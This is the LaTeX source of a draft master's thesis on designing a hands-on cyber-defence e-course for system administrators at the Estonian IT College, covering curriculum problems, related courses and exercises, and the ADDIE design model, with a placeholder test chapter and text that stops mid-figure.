\documentclass[12pt,a4paper,oneside]{report}
\usepackage{minted}
\usepackage[T1]{fontenc}
\usepackage[utf8x]{inputenc}
%\usepackage[utf8]{inputenc}
\usepackage{ucs}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{url}
\usepackage{hyperref}
\hypersetup{
%   bookmarks=true,         % show bookmarks bar?
    unicode=false,          % non-Latin characters in Acrobat’s bookmarks
    pdftoolbar=true,        % show Acrobat’s toolbar?
    pdfmenubar=true,        % show Acrobat’s menu?
    pdffitwindow=false,     % window fit to page when opened
    pdfstartview={FitH},    % fits the width of the page to the window
    pdftitle={My title},    % title
    pdfauthor={Author},     % author
    pdfsubject={Subject},   % subject of the document
    pdfcreator={Creator},   % creator of the document
    pdfproducer={Producer}, % producer of the document
    pdfkeywords={keyword1} {key2} {key3}, % list of keywords
    pdfnewwindow=true,      % links in new window
    colorlinks=true,       % false: boxed links; true: colored links
    linkcolor=blue,          % color of internal links (change box color with linkbordercolor)
    citecolor=green,        % color of links to bibliography
    filecolor=magenta,      % color of file links
    urlcolor=cyan           % color of external links
}
\usepackage[xindy]{glossaries}
\makeglossaries 
\usepackage{graphicx}
\graphicspath{{./illustrations/}}

% for resizing page
\usepackage[top=2.50cm, bottom=2.50cm, left=3.50cm, right=2.50cm, includefoot]{geometry}

% use space to separate paragraphs
\usepackage{parskip}
\setlength{\parskip}{0.50cm} 

% line spacing
\usepackage{setspace}
\onehalfspace

% change chapter title to be without word chapter
% http://www.latex-community.org/forum/viewtopic.php?f=4&t=638
\makeatletter
\renewcommand{\@makechapterhead}[1]{%
	\vspace*{50 pt}%
	{\setlength{\parindent}{0pt} \raggedright \normalfont
	\bfseries\Huge\thechapter\ #1
	\par\nobreak\vspace{40 pt}}}
\makeatother


\usepackage[square]{natbib}


% for adding bibliography to TOC
\usepackage[nottoc]{tocbibind}

% Change the name TOC to 
\renewcommand{\contentsname}{Table of Contents}


\newglossaryentry{HITSA}
{
  name=HITSA,
  description={Hariduse Infotehnoloogia Sihtasutus}
}
\newglossaryentry{EITC}
{
  name=EITC,
  description={Estonian Information Technology College}
}
\newglossaryentry{EISA}
{
  name=EISA,
  description={Estonian Information System’s Authority, see \gls{RIA}}
}
\newglossaryentry{RIA}
{
  name=RIA,
  description={Riigi Infosüsteemi Amet}
}
\newglossaryentry{ICT}
{
  name=ICT,
  description={Information and communications technology}
}
\newglossaryentry{Cyber}
{
  name=Cyber,
  description={In this thesis Cyber used as Cyber-Space Security field}
}
 
\newglossaryentry{DVWA}
{
  name=DVWA,
  description={Damn Vulnerable Web Application}
}
\newglossaryentry{XSS}
{
  name=XSS,
  description={Cross Site Scripting}
}
\newglossaryentry{SQLi}
{
  name=SQLi,
  description={SQL Injection}
}
\newglossaryentry{CSRF}
{
  name=CSRF,
  description={Cross Site Request Forgery}
}
 
\newglossaryentry{OWASP}
{
  name=OWASP,
  description={Open Web Application Security Project}
}
\newglossaryentry{ADDIE Model}
{
  name=ADDIE Model,
  description={The ADDIE model is a systematic instructional design model consisting of five phases: (1) Analysis, (2) Design, (3) Development, (4) Implementation, and (5) Evaluation}
} 


\newglossaryentry{ESF}
{
  name=ESF,
  description={European Social Fund}
} 


\newglossaryentry{TUT}
{
  name=TUT,
  description={Tallinn University of Technology}
} 


\newglossaryentry{UT}
{
  name=UT,
  description={University of Tartu}
} 


\newglossaryentry{ITFE}
{
  name=ITFE,
  description={Information Technology Foundation for Education, see \gls{HITSA}}
} 
\newglossaryentry{MIT}
{
  name=The MIT License,
  description={is free software licence and approved by Open Source Initiative}
} 


\newglossaryentry{CC-BY-SA}
{
  name=CC-BY-SA,
  description={Creative Commons Attribution-ShareAlike 3.0 Unported license that demands attribution, allows commercial use, demands derived works to be licensed by same license}
} 


\newglossaryentry{CERT.EE}
{
  name=CERT Estonia,
  description={The Computer Emergency Response Team of Estonia}
}

\newglossaryentry{Coding Dojo}
{
  name=Coding Dojo,
  description={A Coding Dojo is a meeting where a bunch of coders get together to work on a programming challenge}
}


\newglossaryentry{OpenBSD}
{
  name=OpenBSD,
  description={a free multi-platform 4.4BSD-based UNIX-like operating system}
}

\newglossaryentry{GNU/Linux}
{
  name=GNU/Linux,
  description={GNU is a Unix-like operating system that uses Linux kernel and distributed under \gls{GPL}}
}


\newglossaryentry{GPL}
{
  name=GPL,
  description={General Public License}
}
%do remember run:
%makeglossaries thesis
\makeglossaries
\begin{document}
\title{The Hands-On E-course on Cyber Defence for System Administrators}
\author{Margus Ernits}
\date{2013}

\begin{titlepage}
	\begingroup
		\singlespace
		\begin{center}
			TALLINN UNIVERSITY OF TECHNOLOGY \\
			Faculty of Information Technology \\
			Department of Computer Science \\
			Chair of Network Software
		
			\vfill
				Margus Ernits \\
				113902IVCMM \\[1.5cm]
				\LARGE \textbf{Environment of Distance Study of Cyber Security} \\[1cm]
				\normalsize Master's thesis \\[4cm]

				\begin{flushright}
					Supervisor: Rain Ottis, Ph.D \\
					Associate Professor of Cyber Security \\
					Tallinn University of Technology
					
%%					Supervisor 2: Eesnimi Perenimi, MSc \\
%%					Lector, Tallinn University of Technology
				\end{flushright}
			\vfill

			Tallinn 2013
		\end{center}
	\endgroup
\end{titlepage}
\clearpage
\chapter*{Author’s Declaration}
\label{declaration}
\thispagestyle{empty}
I declare that this thesis is the result of my own research except as cited in the references. 
The thesis has not been accepted for any degree and is not concurrently submitted in candidature 
of any other degree.\\[2cm]

\begin{minipage}{0.5\textwidth}
	\begin{flushleft}
		......................... \\
		(Date) 
	\end{flushleft}
\end{minipage}
\begin{minipage}{0.5\textwidth}
	\begin{flushright}
	......................... \\
	(Signature) 
	\end{flushright}
\end{minipage}

\clearpage
\chapter*{Annotatsioon}
\label{annotatsioon}
\thispagestyle{empty}
Annotatsioon...lühikirjeldus (1 lk). Kirjutan selle peatüki ühe viimasena. 


\clearpage
\chapter*{Annotation}
\label{annotation}
\thispagestyle{empty}


Annotation ... short max one page. I will write annotation as one of the last chapter...


\tableofcontents
\listoffigures
\listoftables
\printglossaries
\chapter{LaTeX testing stuff}
\label{LaTeX testing stuff}
{\color{red} 
{\huge Please ignore this chaper ...
This chapter will be excluded from final version.}
}

\begin{tikzpicture}[level distance=2cm,
level 1/.style={sibling distance=5.5cm},
level 2/.style={sibling distance=2.2cm},scale=1.2]
\node {\Large Puu test}
child {node {\large Siga}
child {node {esimene}}
}
child {node {\large Kala}
child {node {teine}}
child {node {kolmas}}
child {node {neljas}}
};
\end{tikzpicture}


{\huge\today}
\fontspec{Ubuntu}
Reason of this chapter is to test \LaTeX  stuff...
\rule{2.6cm}{0.75pt}  \hspace{3cm} üü \rule{3cm}{0.75pt}\\[2cm]
\begin{itemize}
	\item LaTeX testing stuff
	\item LaTeX testing stuff LaTeX testing stuff
\end{itemize}
\begin{Verbatim}[frame=single]
stuff
\end{Verbatim}

\ldots
\marginpar{\tiny This note will appear in the margin.}


\underline{Text you want underlined goes here.}




\begin{Verbatim}[frame=single,
label=Command output,framesep=2mm,rulecolor=\color{red},commandchars=\\\{\}]
margus@marguspc:~$ df -h
Filesystem             Size  Used Avail Use% Mounted on
/dev/sda1              239G  227G  6,0G  98% /
none                   4,0K     0  4,0K   0% /sys/fs/cgroup
udev                   3,9G  4,0K  3,9G   1% /dev
tmpfs                  790M  964K  789M   1% /run
none                   5,0M     0  5,0M   0% /run/lock
none                   3,9G   14M  3,9G   1% /run/shm
none                   100M   88K  100M   1% /run/user
/dev/sda1              239G  227G  6,0G  98% /home
\fbox{\color{red}/home/margus/.Private}  239G  227G  6,0G  98% /home/margus
\end{Verbatim}
%$



\section{Section name}
\begin{enumerate}
	\item Siia midagi nummerdatut
	\item veel midagi
\end{enumerate}
\subsection{subsection name}
Please see Figure ~\ref{Lab Setup} on page ~\pageref{Lab Setup} for bla bla bla.

\begin{minted}{c}
int main() {
printf("hello, world");
return 0;
}
\end{minted}
\begin{minted}{sh}
echo $(pidof mysql)
apt-get install firefox
$333
\end{minted}
\inputminted{sh}{code/simple.sh}

\begin{figure}
    \centering
	
\includegraphics[width=\textwidth]{Lab_setup.pdf}
	\caption{Lab Setup}
	\label{Lab Setup}
\end{figure}


dddddd d  e d dwe \



\cite{website:ssl} Bla bla
\citep{book:code-complete} d  d
\citep{OppeArenduskeskus2010} de dede
\cite{url:pulse} ewd wed
\citep{SecEngineering} wewde
The \gls{EITC} gives blaa blaa blaa.

Some unicode symbols
道場

\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Computer Science}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {practical}
      [clockwise from=90]
      child { node[concept] {algorithms} }
      child { node[concept] {data structures} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {applied}
      [clockwise from=-30]
      child { node[concept] {databases} }
      child { node[concept] {WWW} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}

\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Course pre requirements skills}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {GNU/Linux}
      [clockwise from=90]
      child { node[concept] {Able to use text editor} }
      child { node[concept] {Understanding of File System Hierarchy} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {Experience with command line}
      [clockwise from=-30]
      child { node[concept] {file manipulation with cp,mv,touch,rm,mkdir etc} }
      child { node[concept] {user management with adduser, passwd, id, getent, usermod, addgroup, useradd, groupadd} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}

\chapter{Introduction}
\label{Introduction}

 
\begin{quote}
Genuine cybersecurity should not be seen as an additional cost, but as an enabler, guarding our entire digital way of life. --- Toomas Hendrik Ilves
\end{quote}

\lettrine[lraise=0.1, nindent=0em, slope=-.5em]{\color{Violet}C}{cyber} security is premise for entire digital lifestyle. Information society relies on trust to the information and communications technology (\gls{ICT}) systems. However, every system needs maintenance and care from highly skilled technicians who have sufficient knowledge for securing complicated networks and services. 

This thesis focuses on developing a practical hands-on e-course for system administrators who protect the citizens' everyday digital life. Developed laboratories will be used to teach IT System Administration students in Estonian IT College (\gls{EITC}) and also in continuous education field. Moreover, all study materials will be released under Creative Commons Attribution-ShareAlike 3.0 Unported  (\gls{CC-BY-SA}) license and all software developed during this work will be distributed under \gls{MIT} licence and can be used by any institution or interested party.

The cyber security field is rapidly growing and the need for highly educated and security aware \gls{ICT} specialists is increasing. Due to  malicious activities proliferating in the Internet, the education in \gls{ICT} field should emphasize knowledge and skills in cyber security field.

Growth of the Internet connected services and networked infrastructure are contribute to the magnitude of possible damage that cyber attack can cause to a country. Several countries have developed cyber security strategies and implementation plans to deal with the problem.

Estonia developed a strategy plan in 2008 \citep{Strategy2008} and the government plans to update the strategy at end of 2013 \citep{StrategyProposal2013}. However, the strategy states that one problem is the absence of sufficient number of highly educated IT professionals. Citation from strategy:  
\begin{quote}
In 2007, a survey of the institutions belonging to Estonia’s critical infrastructure revealed that the biggest shortcoming in the field of information security is the shortage of qualified labour. \citep[p.~16]{Strategy2008}
\end{quote}



Tallinn University of Technology (\gls{TUT}) and University of Tartu (\gls{UT}) have joint Cyber Security Curricula to alleviate the problem. The job titles of the graduates of the curricula may include the following: security analyst, architect or research engineer or managerial roles as project/team leader or technology officer. \citep{TUT_UT_curriculum} Thereof the curriculum is focused on producing the officers for cyber field. 
However, officers need line soldiers to perform their duty.

Almost every company needs system administrators (as line soldiers) who are focused on theirs area but they are not necessarily cyber security specialists. Moreover, they often have degree from applied universities or no degree at all, but have good specialised self-education.

The Estonian IT College (\gls{EITC}) is focused on applied higher education. Study programs in \gls{EITC} include development, administration and system analysis. IT System administration curricula was opened in 2000 {\color{red}(TODO viide)}. In ten years the situation in cyber field has turned more hostile and frictional. The partner organizations of \gls{EITC} who have possibilities to provide input to curricula development process, stated the need to include cyber security related skills and knowledge in study subjects.

Fore example, in 2009 the Rector of Estonian IT College received a letter from \gls{CERT.EE} stating a problem:\par

{
\begin{spacing}{1} 
\scriptsize
---Original Message-----

From: CERT.EE\\
Sent: Tuesday, February 10, 2009 3:55 PM\\
To: Rector of Estonian IT College\\
Cc: Heads of Curricula \\
Subject: Continuous education\\
Hello,

We have a problem:\\
There is an insufficient amount of IT system administrators in local governments, state agencies and small- and mid-size organizations.\\
...\\
With best regards,\\
CERT.EE Worker\\
---End of Original Message-----
\end{spacing}
}

For full letter (in Estonian), see Appendix~\ref{Letter from CERT.EE to the Rector of Estonian IT College} on page ~\pageref{Letter from CERT.EE to the Rector of Estonian IT College}

Specialists and lecturers from \gls{CERT.EE} and from the Estonian IT College decided to develop a practical cyber security module for the \gls{EITC} IT system administration curriculum which is usable in higher education and also in continuous education.

The subjects in current system administration curriculum should also be reviewed and changed according to the needs of cyber security field. For example, the hands-on class for installing web server should contain installation, configuration and also the defence and mitigation methods against common attacks. 

For system administrators the security aspects should be included into specific topics extending them instead of creating a separate topics. On other hand some subjects should focus only to the security, architecture and processes.

The author of this thesis focuses on the practical classes in this project. Authors contributions are hands-on labs for the IT infrastructure services e-course.

\section{Main Problems}
The main problem is deficiency of the skilled and security aware system administrators (in Estonia) who able build company IT infrastructure and do the everyday maintenance task for IT services.

During discussions with partners and private companies a several sub-problems in current situations where enlisted:
\begin{itemize}
\item Private companies and governmental sector needs for security aware professional systems administrators are increasing. Today Estonian \gls{EITC} educational sector do not fill the gap between demands and amount of specialist with new graduates.
\item The study in IT System administration curriculum should have more practical approach and cyber defence related hands-on practical classes to give better practical and technical preparation for graduates.
\item Studying cyber defence should be more attractive and playful for students. Defending the system is not so interesting comparing to offensive activities because attacking are more interesting comparing to defensive course.
\item IT System administrators public sector in Estonian sector are often self studied (in cyber security field) and some of them do not have higher education in \gls{ICT} field. Moreover the knowledge needed to protect their IT systems is lesser demands of the industry as described in CERT.EE letter see Appendix~\ref{Letter from CERT.EE to the Rector of Estonian IT College} on page ~\pageref{Letter from CERT.EE to the Rector of Estonian IT College}.
\item The private education companies offer vendor and product based courses which often do not provide enough related knowledge and do not give broader view to the problem.
\item The courses should use free and open source software because knowledge gathered by studying those solutions can be used to implement open or closed proprietary systems.
\end{itemize}

\section{Main Objectives}

The main objective of this thesis is to develop practical hands-on e-course "Securing IT Infrastructure Services" focusing to the installation, configuring and securing different IT infrastructure services.

This particular objective may divided in to smaller sub-problems and areas.

Considering to main problems analyse requirements for hands-on e-course and choose methodology to implement the course.


\begin{itemize}
\item To implement practical hands-on labs for system administrators
\item To improve quality of graduates using lab intensive study  to perform realistic laboratory work and increase amount of practical hands-on study and decrease length of the lectures.
\item To improve motivation and increase role of other skilled students as tutors and use the \gls{Coding Dojo} methodology, known in programmers field to train system administrators. I would like to name this method as \emph{Dommand Dojo} because a most of the work are done in command line of the different servers.
\item To improve students motivation in defence exercisers use a reward model with virtual badges as markers of success in practical task/field. For example, a badge for securing web server from \gls{SQLi}, \gls{XSS} etc. The reward badges are shown in user profile in laboratory system and also seen by other students.
\end{itemize}
\par


\section{Outline of the thesis}
{\color{red} TODO - short description about content of the thesis. Later... }

 

%\chapter{Overview}
\label{overview}
Overview...

%TODO delete problem:) \chapter{Analysis of the Problem}
\label{Analysis of the Problem}
Analysis of the Problem...
\begin{itemize}
	\item test 1
	\item test 2 kmf ewfewopkf ew
\end{itemize}

\chapter{Analysis}
\label{analysis}

\lettrine[lraise=0.1, nindent=0em, slope=-.5em]{\color{Violet}T}{his} chapter contains analytical part of the thesis, beginning with requirements analysis of the current situation, followed with analysis of the problems. Thereafter a requirement list for new e-course being established, followed by decision for methodology chosen for development of the e-course. 

\section{Problem Analysis}
\label{Problem Analysis}


Deficit of skilled \gls{ICT} specialist is known problem in Estonia \citep{website:ict_puudu} \citep{website:ict_needs}. However, several higher education institutes increased a number of spots in \gls{ICT} in theirs curricula, the number of graduated students is still insufficient for the field requirements\citep{website:TU_ict}, \citep{website:itc_facts}. Moreover, a continuous changing and of the field demands continually changes to curricula. Also a continuous learning are common in \gls{ICT} field because its changing. Therefore, a modernisation of the  \gls{ICT} curriculum and offering a continuous education courses are priority for \gls{EITC} to maintain professionalism as a graduated specialist.

To facilitate a curriculum development process the \gls{EISA} contacted with \gls{EITC} describing a problem: The deficiency of the skilled and security aware system administrators. Thereafter, provide initial proposal for solution to deal with the problem as seen in Appendix~\ref{Letter from CERT.EE to the Rector of Estonian IT College} on page ~\pageref{Letter from CERT.EE to the Rector of Estonian IT College}. However, instead of accepting the solution without questioning the curriculum heads of \gls{EITC} arranged several workshops for initial investigation of the problem and divided it to separate sub-problems and areas. For ensuring wider view of the problem several experts where involved from private companies, telecoms, banks, small business and start-ups. Author of this thesis characterize the proposal and establishes and negotiated the requirements for changes and composed an action plan.

Turing curricula development workshops author described the main reasons of the problem as following:

First, many system administrators acquired their knowledge through self-study. However, a continuous study is common in \gls{ICT} field the level of the specialist are unsteady and they do not have sufficient knowledge to build secure infrastructure.

Second, the applied education field do not provide qualification needed for managing secure infrastructure services. Therefore changes to curriculum are needed to fill the cap.

Third, in continuous education field is usual that private companies offer several courses for configuring and securing infrastructure, networks and services. However, those trainings are usually vendor based and focused heavily for promoting proprietary technologies without focusing broader knowledge in security field. 

Fourth, the system administrators in local government or municipal field have heterogeneous level of skills and knowledge. Therefore complication maintaining and helping them too difficult for \gls{CERT.EE}.

Fifth, all courses (needed to be developed) should be associated with the practical applicability of the theoretical knowledge and contain largely practical hands-on classes. Moreover, all materials should be based on not proprietary technology, like \gls{OpenBSD} or \gls{GNU/Linux}.

Sixth, the study program should focuses on practical learning by doing approach to \gls{ICT} subjects.
 Moreover, using virtual and game-like environments is a contemporary approach for teaching IT System administration and programming focusing to the cyber security requirements increases a motivation of students. Today the studies are too focused to the lecture form and practical classes are too simple and do not reflect the real situation.
 
For conclusion the security field in \gls{EITC} should be implemented by modifying existing courses and developing new subjects. Therefore, the author redesigns the IT system administration curricula in \gls{EITC} to mitigate the problems.



\section{Related Work}
\label{Related Work}
Designing an e-course is a challenge that has been solved by many lecturers and instructional developers. Moreover, the popularity of the cyber security related subjects in information and communications technology ICT curricula is growing and become a "student’s magnet" for higher educational institutes \citep{CyberIsHot}. Thereafter is possible to gain additional information by analysing related curricula and cyber security exercisers  in several higher educational institutes and analysing instructional design methodologies to achieve goals of this thesis. Moreover, to design practical course is also important to investigate courses given in region and in the world. However, is not possible to investigate a large amount of the courses and resources, the authors opinion is that by over-viewing several well known courses, trainings and challenges and articles the amount of gathered information is sufficient in minimal level for developing e-learning course.

\subsection{Cyber defence courses in Universities and Cyber exercisers}
Cyber defence exercisers can be categorized as practical exams and from suggested skill lists from those events can provide valuable information for curricula/course development process.

One comprehensive paper "Collective Views of the NSA/CSS Cyber Defense Exercise
on Curricula and Learning Objectives" about National Security describes how the National Security
Agency/Central Security Service (NSA/CSS) annual Cyber Defense Exercise (\gls{CDX}) influences curricula and studies at eight US federal service academies \citep{adams_CDX_curricula}. For example the Association for Computing Machinery (ACM) student can participate in \gls{CTF} exercisers and  visits to several security conferences \citep{adams_CDX_curricula}.

In University of Tartu several courses are related to topic as: Computer Security course  contains also 14 practical classes \footnote{Computer Security course   \url{https://courses.cs.ut.ee/2012/turve/fall/Main/HomePage} (2013-05-21)}, System Administration course gives good starting point with GNU/Linux and basic system administration \footnote{ System Administration course  \url{https://courses.cs.ut.ee/2013/syshald/spring/Main/Loengud} (2013-05-21)}
In University of Tartu have more security related courses but for this particular thesis those two are most important because they are practical and related to system administrators field.

In Tallinn University of Technology (\gls{TUT}) several courses are held as: Information Systems Hacking Attacks and Defence, Simulation of Attacks and Defense, Log Mining and Disk Forensics \footnote{wiki - lambda.ee \url{http://lambda.ee/wiki/Cyber_security_2012_second_year} (2013-05-21)}

Those courses are designed to give good hands-on experience on field for author opinion best courses in region. However, in \gls{EITC} all this material can not covered due curricula limitations but knowledge gathered on those courses will help to develop this particular e-learning course.

\subsection{Course in private companies and other organizations}

Two days course "Hands-on Hacking Essentials" given by Clarified Security OÜ contains Reconnaissance and information gathering, Privilege escalation, Jumping the (fire)wall, BackTrack 5, Remote exploitation, Attack Tool-sets \citep{website:clarifiedsecurity_hohe}. Therefore the given introduction should be a standard part of applied \gls{ICT} curricula. However, the course is too expensive to integrate it into \gls{EITC} curricula the lecturers are demonstrated the basics in several public and sometimes semi-private events organized by \gls{EISA}. Second course given by Clarified Security OÜ are the "Web Application security essentials" with duration of four days are focused to client side attacks and server side attacks giving systematic and well covered overview of the field \citep{website:clarifiedsecurity_hohe}.

However the both courses are designed keeping offensive in mind the basics should be covered also in \gls{EITC} curricula because to defend system also basic offensive knowledge and skills are required.

The SANS Institute organizes extensive security trainings also in online form \citep{website:SANS}. Moreover the institute shares free online resources for security topics \footnote{SANS - Reading Room \url{https://www.sans.org/reading_room/} (2013-05-21)} When developing a curriculum the topics and best practices from SANS Institute should be work through for clarifying learning outcomes and tools what can be used.

Last but not least the \gls{OWASP} project gives good and reusable study materials for theoretical and as well a practical guides as \gls{OWASP} Application Security Verification Standard (\gls{ASVS}) Project \footnote{\gls{OWASP}  (\gls{ASVS}) Project \url{https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project} (2013-05-21)} 

\subsection{Large scale cyber security exercisers}
Several Cyber Defense Exercises (\gls{CDX}) are focused to train defence teams called Blue Team's \citep{website:NATO_CCD_COE,schepens_CDX}. And sometimes argued that \gls{CDX} is should be as a part of the any computer security curricula as addition to the classroom learning \citep{adams_CDX_curricula}. International Cyber Defence Exercise Locked Shields Locked Shields is defence exercise organised by NATO Cooperative Cyber Defence Centre of Excellence (\gls{NATO CCD COE}) and partners  \citep{website:NATO_CCD_COE}. 

The Blue Teams were the main training audience.
Expected Skillset blue team technicians from International Cyber Defence Exercise Locked Shields 2012 after action report \citep{website:NATO_CCD_COE}:
\begin{itemize}
\item Administration of Windows domain, Active Directory, Windows workstation
\item Administration of Linux servers like GNU/Debian and Ubuntu distributions
\item Firewalling (Netfilter based)
\item Knowledge about common network protocols/services and technologies as \gls{DNS}, \gls{NTP}, \gls{DHCP}, \gls{HTTP}, \gls{HTTPS}, \gls{SMTP}, \gls{POP3}, \gls{IMAP}, \gls{SSH}, \gls{FTP}, \gls{RADIUS}
\item \gls{KVM} virtualization platform
\item Web application technologies (\gls{HTML}, client-side and server-side scripting
such as JavaScript and \gls{PHP}, \gls{SQL} databases such as \gls{MySQL})
\item Administering of network devices (CISCO IOS, routing protocols)
\item Scripting skills in Perl
\end{itemize}

For large scale \gls{CDX} events the stability of the environment is always an issue \citep{website:NATO_CCD_COE,schepens_CDX}. Therefore, monitoring and IT service help are also fields that need investigation for environments where all students can start theirs virtual labs.

\section{Choosing Methodology for Developing an e-course}

Developing an e-course can be done without using design methodology but systematic approach should give more effective results. In principle the common systematic methods to develop an (e-learning) course are applying a Instructional System Design \gls{ISD} (sometimes cited as  Instructional Design \gls{ID}) model \citep{website:id_models}. However, several \gls{ISD} modes exists and can divided into three classes: behaviorism, cognitivist and prescriptive design \citep{website:id_models}, this thesis uses Prescriptive Design Model and specifically the \gls{ADDIE} process because method is used in Estonia and recommended for designing e-learning course \citep[p.~5]{OppeArenduskeskus2010}. Moreover, the \gls{ADDIE} model is not only good model that can be customized to meet specific needs, but ADDIE is a commonly used effective model for instructional  design \citep{ieee_addie_1607206}.

The methodology used to develop this e-course should encourage student activity in learning process. Moreover student should have possibility to choice learning speed, -place and -time. Today's students have different learning style and background and methodology should reckon with individual differences.

Developed e-course should support people with disabilities. In \gls{EITC} several people have hearing disabilities and all important material should presented also without audio. For example in screen casts videos all important information should be written also in screen or added as transcript.

Today’s learning environment should support student communities where students can act as mentors and also feel part on the study program. Course integration with student driven initiative like forums, blogs, wiki pages and other collaboration learning methods should be possible and not restricted.

 However, the \gls{ADDIE} model has several weaknesses as being too waterfall type model because it is not iterative \citep{website:weakesses_of_ADDIE_model}. Alternatively The Dick and Carey Model are used to design instructions \citep{dick2005systematic}. However, the Estonian guide to for design a quality-grade e-learning course based on \gls{ADDIE} model \citep{OppeArenduskeskus2010}. Although the ADDIE model is not modelling anything and technically should it called a \gls{ISD} framework \citep{bichelmeyer2004addie}, in this thesis term ADDIE model is used because this name is commonly known and used for designing e-learning courses \citep{bichelmeyer2004addie, OppeArenduskeskus2010}.
For conclusion the \gls{ADDIE} model was chosen to develop particular cyber security e-learning course and model itself is described in the next section.

\subsection{The ADDIE Model}

The \gls{ADDIE} model is used for creating different types of instructions as courses, trainings \citep{website:addie, lohr1998using}. Moreover, the ADDIE method is  used to provide a systematic, iterative course development process with feedback-based approach to improve quality of study \citep{website:using_addie}.

The ADDIE model contain five stages: Analysis, Desing, Development, Implementation and Evaluation as seen in illustration~\ref{figure:the addie model} \citep{website:addie}



\begin{figure}[H]
 \centering 
